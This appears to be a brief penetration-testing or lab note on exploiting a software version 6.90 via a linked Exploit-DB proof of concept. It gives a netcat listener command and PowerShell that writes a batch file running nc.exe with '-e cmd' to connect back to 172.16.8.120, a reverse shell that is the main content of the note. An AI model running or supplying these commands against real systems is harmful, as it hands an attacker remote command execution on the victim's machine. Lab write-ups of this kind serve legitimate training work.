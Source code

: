 - version 6.90
![[Pasted image 20240913134227.png]]
- some POC: https://www.exploit-db.com/exploits/50834
- well exploit is pretty clear
- just need to start listener `rlwrap nc -nvlp 4444`
- and PS commands to run
```powershell
mkdir 'c:\temp'
$batFilePath = "C:\temp\pwn.bat"
$batContent = 'c:\temp\nc.exe 172.16.8.120 1234 -e cmd'
Set-Content -Path $batFilePath -Value $batContent
```
